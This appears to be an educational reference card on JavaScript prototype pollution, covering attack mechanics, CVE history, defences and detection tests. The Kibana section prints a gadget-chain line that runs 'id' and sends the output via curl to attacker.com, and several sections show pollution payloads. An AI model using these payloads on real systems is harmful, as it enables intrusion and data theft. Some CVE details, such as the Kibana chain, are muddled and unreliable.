

⚡ TL;DR - Prototype pollution occurs when attacker-controlled
keys in a JavaScript object merge affect `Object.prototype`,
adding or overriding properties on ALL objects in the application.
Consequence: bypassing null checks (`if (obj.isAdmin)` returns
true everywhere), crashing Node.js (TypeError), or RCE via
gadget chains in some libraries. Fix: use `Object.create(null)`
for parsed untrusted JSON, validate keys against `__proto__`,
`constructor`, and `prototype`.

---

| #064 | Category: Security | Difficulty: ★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Security Fundamentals, Input Validation, Security Code Review | |
| **Used by:** | SAST, Advanced XSS | |
| **Related:** | JavaScript Security, Node.js, Object Injection | |

---

### 🔥 The Problem This Solves

**WHY PROTOTYPE POLLUTION MATTERS:**

```
THE ATTACK: Modifying the prototype of ALL objects

JAVASCRIPT PROTOTYPE CHAIN:
  Every JavaScript object inherits from Object.prototype.
  
  let user = {name: "Alice"};
  user.hasOwnProperty  // Inherited from Object.prototype
  user.toString        // Inherited from Object.prototype
  
  If you set Object.prototype.isAdmin = true:
    let user = {name: "Alice"};
    user.isAdmin  // → true (inherited from Object.prototype!)
    let obj = {};
    obj.isAdmin   // → true
    let arr = [];
    arr.isAdmin   // → true
  
  EVERY object in the entire application now has isAdmin = true.

HOW PROTOTYPE POLLUTION HAPPENS IN CODE:

  VULNERABLE MERGE FUNCTION:
    function merge(target, source) {
        for (let key in source) {
            if (typeof source[key] === 'object' && source[key] !== null) {
                if (!target[key]) target[key] = {};
                merge(target[key], source[key]);  // Recursive merge
            } else {
                target[key] = source[key];  // Assigns property
            }
        }
        return target;
    }
    
    ATTACKER INPUT (JSON payload):
    {
        "username": "alice",
        "__proto__": {"isAdmin": true}
    }
    
    WHAT HAPPENS:
      merge({}, {"username": "alice", "__proto__": {"isAdmin": true}})
      
      Iteration key="username": target.username = "alice"
      Iteration key="__proto__": typeof object, recurse:
        merge(target["__proto__"], {"isAdmin": true})
        target["__proto__"] is actually Object.prototype
        Object.prototype.isAdmin = true
      
    NOW:
      const userObj = {};
      userObj.isAdmin  // → true  (from Object.prototype)

VULNERABLE PATTERN IN APPLICATIONS:
  Application code:
    function isAdmin(user) {
        return user.isAdmin;  // Check user object for isAdmin
    }
    
    // Normal user: {username: "alice"} → isAdmin=undefined → false
    // After prototype pollution: {username: "alice"} → isAdmin=true !!

REAL IMPACT:
  CVE-2019-7609 (Kibana <6.6.0): prototype pollution → RCE
  CVE-2019-10744 (lodash <4.17.12): _.defaultsDeep, _.merge vulnerable
  CVE-2020-8203 (lodash <4.17.19): _.zipObjectDeep
  CVE-2021-44906 (minimist <1.2.6): argument parsing library
  
  lodash is in >15 million npm packages. Every app with vulnerable
  lodash + prototype pollution input vector was at risk.
```

---

### 📘 Textbook Definition

**Prototype Pollution:** A JavaScript/Node.js vulnerability where
attacker-controlled input modifies `Object.prototype`, adding or
overriding properties that are then inherited by all objects in
the application.

**JavaScript prototype chain:** Every object has an internal
`[[Prototype]]` link to another object. Property lookups traverse
the chain: `obj.prop` → not found in obj → look in `obj.__proto__`
→ look in `obj.__proto__.__proto__` → until `Object.prototype`.

**Attack mechanism:** When a recursive merge, deep clone, or
object assignment uses a key from attacker-controlled input
without sanitizing `__proto__`, `constructor.prototype`, or
`prototype` keys, the write targets `Object.prototype` directly.

**Consequences:**
- **Logic bypass:** `if (user.isAdmin)` returns true for all objects.
- **Denial of Service:** Adding a property that makes some function
  throw TypeError (crash the process).
- **RCE via gadget chains:** Some Node.js frameworks use
  `Object.prototype` properties in code paths that reach `eval()`
  or `child_process.exec()` (CVE-2019-7609).

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Prototype pollution = attacker sets `Object.prototype.isAdmin=true`
via `__proto__` in a JSON payload. Now every object in the application
has `isAdmin=true`. Security checks that rely on `obj.isAdmin` are bypassed.

**One analogy:**
> Prototype pollution is like changing the "default settings"
> document in an office.
>
> Every new employee gets a copy of the "default settings."
> If someone modifies the original "default settings" document
> to say "admin access: yes," every employee automatically
> has admin access - including new hires and people who
> never explicitly requested it.
>
> Object.prototype is the "default settings" document.
> Every new object is a new employee who inherits the defaults.
> Prototype pollution modifies the original document.

---

### 🔩 First Principles Explanation

**Prevention and safe patterns:**

```
PREVENTION 1: SANITIZE DANGEROUS KEYS IN MERGE FUNCTIONS

  BAD (vulnerable to prototype pollution):
    function merge(target, source) {
        for (let key in source) {  // 'for...in' iterates all enumerable props
            if (typeof source[key] === 'object') {
                target[key] = merge(target[key] || {}, source[key]);
            } else {
                target[key] = source[key];
            }
        }
        return target;
    }
    merge({}, JSON.parse('{"__proto__": {"isAdmin": true}}'));
    // Object.prototype.isAdmin = true !!
  
  GOOD (key sanitization):
    const DANGEROUS_KEYS = new Set(['__proto__', 'constructor', 'prototype']);
    
    function safeMerge(target, source) {
        if (typeof source !== 'object' || source === null) return source;
        
        for (let key of Object.keys(source)) {  // Object.keys: own keys only
            if (DANGEROUS_KEYS.has(key)) {
                continue;  // Skip dangerous keys
            }
            
            if (typeof source[key] === 'object' && source[key] !== null) {
                if (typeof target[key] !== 'object') {
                    target[key] = {};
                }
                safeMerge(target[key], source[key]);
            } else {
                target[key] = source[key];
            }
        }
        return target;
    }

PREVENTION 2: USE Object.create(null) FOR UNTRUSTED DATA

  Objects created with Object.create(null) have NO prototype:
  
  const safeObj = Object.create(null);
  safeObj.__proto__ === undefined  // No prototype chain
  
  Prototype pollution has no effect - there is no prototype to pollute.
  
  USE CASE: Accumulator/map for user-supplied data:
    // BAD: {} inherits from Object.prototype
    const counts = {};
    counts['__proto__'] = 'polluted';  // Danger!
    
    // GOOD: null-prototype object
    const counts = Object.create(null);
    counts['__proto__'] = 'just data';  // No prototype chain to affect
    
  NOTE: Object.create(null) objects don't have toString, hasOwnProperty, etc.
  Test your code if you depend on these methods.

PREVENTION 3: JSON.parse() + Object.freeze(Object.prototype)

  Freeze Object.prototype (prevents modification):
    Object.freeze(Object.prototype);
    
    // Now any attempt to modify Object.prototype fails silently
    // (or throws TypeError in strict mode)
    Object.prototype.isAdmin = true;  // Fails!
    const obj = {};
    obj.isAdmin;  // undefined (prototype not polluted)
  
  Limitation: must be applied before any library code runs.
  Cannot freeze in code that runs after imports.
  
  In Node.js startup:
    // At the very top of your entry file, before any require():
    Object.freeze(Object.prototype);
    Object.freeze(Object);

PREVENTION 4: HASOWNPROPERTY() FOR PROPERTY EXISTENCE CHECKS

  BAD:
    if (config.isAdmin) { ... }  // Reads from prototype if not own property
  
  GOOD:
    if (Object.prototype.hasOwnProperty.call(config, 'isAdmin')) {
        // Only true if config ITSELF has isAdmin, not via prototype
    }
    
    // Or with optional chaining:
    if (config?.isAdmin === true) { ... }  // Still inherits; use hasOwnProperty

PREVENTION 5: SCHEMA VALIDATION BEFORE PROCESSING

  Use JSON schema validation to reject inputs with unexpected keys:
  
  import Ajv from 'ajv';
  const ajv = new Ajv();
  
  const schema = {
      type: 'object',
      additionalProperties: false,  // Reject unexpected keys (incl __proto__)
      properties: {
          username: { type: 'string' },
          email: { type: 'string' }
      }
  };
  
  const valid = ajv.validate(schema, userInput);
  if (!valid) throw new ValidationError(ajv.errors);
  // Input with __proto__ fails validation.
```

---

### 🧪 Thought Experiment

**SCENARIO: Kibana RCE via prototype pollution (simplified)**

```
CVE-2019-7609: Kibana <6.6.0 TimeLion RCE via prototype pollution

VULNERABLE CODE PATH:
  1. User input reaches a merge/deep-assign function.
  2. Prototype pollution sets Object.prototype.env = {NODE_OPTIONS: '--require /tmp/exploit.js'}.
  3. Kibana spawns a child process using child_process.spawn().
  4. Node.js's child_process.spawn() inherits environment from Object.prototype.env
     (if env option not explicitly set, it reads from process.env which inherits
     from... Object.prototype? - complex chain).
  5. The child process starts with --require /tmp/exploit.js.
  6. exploit.js executes with elevated privileges.

ACTUAL CHAIN (simplified):
  Object.prototype.outputFunctionName = 'x;process.mainModule.require("child_process").exec("id | curl http://attacker.com/ -d @-")//'
  
  This pollutes a property used by a JavaScript template engine (EJS/Pug)
  that builds function bodies from prototype properties.
  
  The template engine compiles a template, building a function body string.
  It checks: opts.outputFunctionName (to customize output behavior).
  With prototype pollution: every opts object now has outputFunctionName = malicious code.
  The template compiler inserts the malicious code into the function body string.
  eval() executes the function: RCE achieved.

HOW TO TEST FOR PROTOTYPE POLLUTION:
  1. In browser console:
     fetch('/api/endpoint', {
       method: 'POST',
       body: JSON.stringify({"__proto__": {"polluted": true}}),
       headers: {'Content-Type': 'application/json'}
     });
     ({}).polluted  // If true: prototype pollution confirmed
  
  2. Automated: snyk test, npm audit
     Both flag libraries with known prototype pollution CVEs.
  
  3. Tool: yarn/npm audit --json | grep "prototype-pollution"
```

---

### 🧠 Mental Model / Analogy

> Prototype pollution is like having a "default employee profile"
> in an HR system, and an attacker with form access edits the DEFAULT
> PROFILE to add "cleared for executive floor: yes."
>
> Individual employee records: don't have "executive floor access."
> BUT: the system checks "does this profile OR the default profile
>       have executive floor access?"
>
> Since the default profile now has it: every employee gets it.
>
> JavaScript's prototype chain: your code checks `user.isAdmin`.
> If not on user object directly: check Object.prototype.
> Object.prototype was polluted to have `isAdmin: true`.
> All users pass the admin check.
>
> Fix 1: HR system uses a separate "defaults" that cannot be
> accessed or modified by form inputs (Object.create(null)).
> Fix 2: HR system validates: no "executive floor access" in
> form submissions (key sanitization).
> Fix 3: The default profile is locked and cannot be modified
> (Object.freeze(Object.prototype)).

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
In JavaScript, every object inherits properties from a "parent" called `Object.prototype`. Prototype pollution means an attacker can add properties to this parent, which all other objects then inherit. If they add `isAdmin: true` to the parent, every object in the app suddenly has `isAdmin: true`. Security checks using `if (user.isAdmin)` can be bypassed.

**Level 2 - How to use it (junior developer):**
When writing deep merge or clone functions: sanitize keys. Skip any key named `__proto__`, `constructor`, or `prototype`. Use `Object.keys()` instead of `for...in` (Object.keys returns own properties only). For storing user-supplied data: use `Object.create(null)` to create objects with no prototype chain. Add `"additionalProperties": false` to JSON schemas to reject unexpected keys.

**Level 3 - How it works (mid-level engineer):**
JavaScript property lookup: `obj.key` → check obj own properties → check `obj.__proto__` → check `obj.__proto__.__proto__` → until null. `Object.prototype` is at the end of every chain. When a merge function iterates `source.__proto__` and writes to `target.__proto__`, it writes directly to the prototype object (since target's `__proto__` IS Object.prototype for plain objects). All subsequent `{}` objects inherit the added property. Vulnerable functions: lodash `_.merge`, `_.defaultsDeep`, `_.zipObjectDeep`, jQuery `$.extend(true, ...)`. Patched in lodash 4.17.21+.

**Level 4 - Why it was designed this way (senior/staff):**
Prototype-based inheritance is a JavaScript design choice from Brendan Eich's original design (1995). It differs from class-based inheritance: objects inherit directly from other objects, not from class definitions. The `__proto__` accessor was initially non-standard (ES5 added `Object.getPrototypeOf` as the standard), added to browsers as a de facto standard, then formally added in ES2015. This created a tension: `__proto__` as a valid key name vs. `__proto__` as a prototype accessor. In JSON parsing: `{"__proto__": {"x": 1}}` is valid JSON with a key named `__proto__`. JavaScript's JSON.parse processes this correctly (creates an own property named `__proto__` on the object). But when a merge function processes this JSON object, it reads the `__proto__` key and treats it as a prototype write. This is the gap that prototype pollution exploits.

**Level 5 - Mastery (distinguished engineer):**
Advanced prototype pollution: constructor pollution. `{"constructor": {"prototype": {"isAdmin": true}}}` targets the constructor's prototype via a different path. This bypasses sanitization that only checks `__proto__`. Complete sanitization must cover: `__proto__`, `constructor`, `prototype`. Server-side prototype pollution in Node.js is more critical than client-side: in browsers, each page load resets the prototype (sandbox). In Node.js: the prototype is shared across all requests for the lifetime of the process. One malicious request pollutes the prototype for all subsequent requests until process restart. Detection: Burp Suite has a "Server-Side Prototype Pollution Scanner" extension. Testing: the JSON space override technique - pollute `Object.prototype` with `{"json spaces": 10}` and observe if JSON responses become prettily indented (spaces=10). A safe way to detect server-side pollution without triggering security features.

---

### ⚙️ How It Works (Mechanism)

```
PROTOTYPE CHAIN AND POLLUTION:

  BEFORE POLLUTION:
    obj = {}
    obj.__proto__ → Object.prototype → null
    obj.isAdmin → undefined (not in chain)
  
  POLLUTION:
    Object.prototype.isAdmin = true
    (via merge({}, {"__proto__": {"isAdmin": true}}))
  
  AFTER POLLUTION:
    obj = {}
    obj.__proto__ → Object.prototype {isAdmin: true} → null
    obj.isAdmin → true (found in Object.prototype!)
    
    ANY new object:
    let newObj = {name: "Bob"};
    newObj.isAdmin → true (inherited from polluted prototype)
```



---

### 💻 Code Example

**Express.js: safe deep merge utility:**

```javascript
'use strict';

const FORBIDDEN_KEYS = new Set(['__proto__', 'constructor', 'prototype']);

/**
 * Deep merge source into target, safe against prototype pollution.
 * Skips __proto__, constructor, prototype keys.
 */
function safeMerge(target, source) {
  if (source === null || typeof source !== 'object') {
    return target;
  }

  // Object.keys(): own enumerable properties only
  for (const key of Object.keys(source)) {
    if (FORBIDDEN_KEYS.has(key)) {
      continue;  // Skip dangerous keys
    }

    const srcVal = source[key];
    const tgtVal = target[key];

    if (srcVal !== null && typeof srcVal === 'object' &&
        tgtVal !== null && typeof tgtVal === 'object') {
      safeMerge(tgtVal, srcVal);  // Recurse for nested objects
    } else {
      target[key] = srcVal;
    }
  }

  return target;
}

// Using null-prototype objects for untrusted data accumulation
function parseUserConfig(rawJson) {
  const parsed = JSON.parse(rawJson);
  
  // Store in null-prototype object - no prototype to pollute
  const config = Object.create(null);
  safeMerge(config, parsed);
  
  return config;
}

// Safe property check (not relying on prototype)
function isAdminUser(user) {
  // hasOwnProperty: checks ONLY own properties, not inherited
  return Object.prototype.hasOwnProperty.call(user, 'isAdmin')
    && user.isAdmin === true;
}
```

---

### ⚖️ Comparison Table

| Defense | What it prevents | When to use |
|:---|:---|:---|
| **Skip `__proto__`/`constructor`/`prototype` keys** | Direct prototype pollution via merge | All merge/clone functions |
| **`Object.create(null)`** | Pollution has no effect (no prototype) | Accumulating user-supplied data |
| **`Object.freeze(Object.prototype)`** | Modification of Object.prototype | Node.js startup (early, before requires) |
| **`hasOwnProperty` checks** | Reading polluted prototype properties | Security-critical property existence checks |
| **JSON schema `additionalProperties: false`** | Unexpected keys in request body | API input validation |
| **Use lodash >=4.17.21** | Known prototype pollution CVEs | Dependencies audit |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "Prototype pollution only affects the browser (client-side); it's not a serious server-side issue." | Server-side prototype pollution in Node.js is MORE serious than client-side. In browsers: each page load creates a fresh JavaScript context. Prototype pollution affects only the current page session. In Node.js: the JavaScript context is shared across ALL incoming requests for the entire lifetime of the process. A single malicious request pollutes Object.prototype for ALL subsequent requests until the process restarts. One attacker can affect all users. CVE-2019-7609 (Kibana RCE) and CVE-2019-11358 (jQuery) demonstrate serious server-side impact. |
| "Sanitizing `__proto__` is enough." | There are multiple attack vectors for prototype pollution: `__proto__` (direct), `constructor.prototype` (via constructor chain), and library-specific paths. Prototype pollution via `constructor.prototype`: `{"constructor": {"prototype": {"isAdmin": true}}}`. This bypasses a filter that only checks for `__proto__`. Complete protection requires checking: `__proto__`, `constructor`, AND `prototype` as keys in any recursive merge. Better: use `Object.keys()` (not `for...in`) AND skip these three keys explicitly. |

---

### 🚨 Failure Modes & Diagnosis

**Testing for prototype pollution:**

```
DETECTION IN NODE.JS:

1. JSON space override technique (safe, non-destructive test):
   Pollute with: {"__proto__": {"json spaces": 10}}
   Send to target endpoint.
   Observe: are subsequent JSON responses formatted with extra spaces?
   If yes: server-side prototype pollution confirmed.
   (Express.js uses JSON.stringify with spaces from options,
   which reads from Object.prototype if not explicitly set)

2. Browser console test:
   fetch('/api/user-settings', {
     method: 'POST',
     body: JSON.stringify({"__proto__": {"polluted": "yes"}}),
     headers: {'Content-Type': 'application/json'}
   }).then(() => {
     console.log(({}).polluted);  // "yes" if polluted
   });

3. Burp Suite: Burp Server-Side Prototype Pollution Scanner extension.
   Runs safe detection techniques automatically.
   Identifies vulnerable merge/assign patterns.

4. npm audit / snyk:
   npm audit --audit-level=moderate
   Flags lodash, minimist, and other packages with known PP CVEs.
   
   snyk test
   Gives more context: vulnerable function, fix version.

DIAGNOSIS IN CODE:
  Grep for vulnerable patterns:
    grep -rn "for.*in.*source" --include="*.js"   (for...in merge)
    grep -rn "\.merge\|\.extend\|\.assign" --include="*.js"
    
  Check lodash version:
    cat package-lock.json | grep '"lodash"' -A3
    (Should be >=4.17.21)
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10` - A08 Software and Data Integrity Failures
- `Input Validation` - rejecting dangerous keys
- `Security Code Review` - finding merge function vulnerabilities

**Builds on this:**
- `SAST` - automated detection of prototype pollution patterns
- `Advanced XSS` - XSS as delivery for client-side prototype pollution

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ ATTACK KEYS  │ __proto__, constructor, prototype          │
├──────────────┼───────────────────────────────────────────┤
│ FIX 1        │ Skip forbidden keys in merge (Object.keys)│
│ FIX 2        │ Object.create(null) for untrusted data    │
│ FIX 3        │ Object.freeze(Object.prototype) at startup│
│ FIX 4        │ JSON schema additionalProperties: false    │
├──────────────┼───────────────────────────────────────────┤
│ TEST         │ POST {"__proto__": {"json spaces": 10}}    │
│              │ Watch if JSON responses gain indentation   │
├──────────────┼───────────────────────────────────────────┤
│ KNOWN CVSS   │ lodash <4.17.21 (several CVEs)            │
│              │ minimist <1.2.6 (CVE-2021-44906)          │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Don't use user-supplied strings as keys in operations
that affect global/shared state."
Prototype pollution is one instance of a general pattern:
when attacker-controlled strings become keys in a data structure
that has privileged global behavior, the attacker can manipulate
global state.
Other instances:
- HTTP header injection: attacker-controlled header name `\r\nX-Injected:` splits the response.
- Environment variable injection: `{"NODE_OPTIONS": "--require evil.js"}` as an env var.
- CSS custom property injection: `--host: 'attacker.com'` can exfiltrate data via CSS.
- Server-side template injection: user-supplied key `{template.key}` reaches a template engine.
The common thread: user-supplied string becomes a path into a
privileged or global space. The fix in each case: validate and
restrict what keys/values can be user-supplied; don't allow
arbitrary strings to navigate into privileged namespaces.

---

### 💡 The Surprising Truth

Prototype pollution was first described as a security issue in
a 2018 blog post by Olivier Arteau at HackerOne ("Prototype
Pollution Attacks in NodeJS Applications"). Before that, it was
treated as a JavaScript quirk or a minor library bug.
Within 12 months: lodash (the most popular npm package with
>100 million weekly downloads), jQuery, minimist, and dozens of
other foundational libraries had prototype pollution CVEs.
The most impactful consequence wasn't the direct prototype
pollution itself - it was the gadget chains. Researchers found
that polluting specific Object.prototype keys (`outputFunctionName`,
`main`, `shell`, `__dirname`) could trigger RCE through EJS, Pug,
child_process.spawn(), and other common Node.js patterns.
The RCE gadget chains required no bugs in the template engines
or spawn functions - those libraries worked as designed. The
vulnerability was in the combination of prototype pollution
(providing attacker-controlled properties globally) and
legitimate library code reading from the prototype chain.
This is the same "gadget chain" pattern as Java deserialization:
innocent libraries + unexpected data flow = code execution.
The lesson: security vulnerabilities often live at the intersection
of two systems that each work correctly in isolation.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** the prototype chain lookup and how `Object.prototype` pollution
   affects all objects in a Node.js process globally until restart.
2. **FIX** a vulnerable `_.merge`-style function by skipping forbidden keys
   (`__proto__`, `constructor`, `prototype`) using `Object.keys()`.
3. **TEST** safely using the JSON space override technique or Burp PP Scanner.
4. **IDENTIFY** vulnerable dependencies: lodash <4.17.21, minimist <1.2.6.

---

### 🎯 Interview Deep-Dive

**Q: What is prototype pollution? How would you prevent it in a Node.js application?**

*Why they ask:* Node.js/JavaScript security knowledge. Lodash CVEs
are widely known. Tests understanding of JavaScript prototype chain.

*Strong answer covers:*
- How the attack works: attacker sends `{"__proto__": {"isAdmin": true}}`.
  Vulnerable merge function writes to `Object.prototype`. Every `{}` now
  has `isAdmin=true`. Admin checks bypassed.
- Why server-side is severe: shared prototype across all requests in the
  process. One request affects all users.
- Prevention:
  1. Skip `__proto__`, `constructor`, `prototype` keys in merge functions.
     Use `Object.keys()` not `for...in`.
  2. `Object.create(null)` for untrusted data storage (no prototype chain).
  3. `Object.freeze(Object.prototype)` at startup.
  4. JSON schema with `additionalProperties: false`.
  5. Use lodash >=4.17.21 (prototype pollution patched).
- Testing: JSON space override - POST `{"__proto__": {"json spaces": 10}}`,
  check if JSON responses are prettily formatted.
- Gadget chains: polluting certain prototype keys can reach RCE via EJS/Pug
  `outputFunctionName` → template compiler builds malicious function body.
- OWASP A08 (Software and Data Integrity Failures).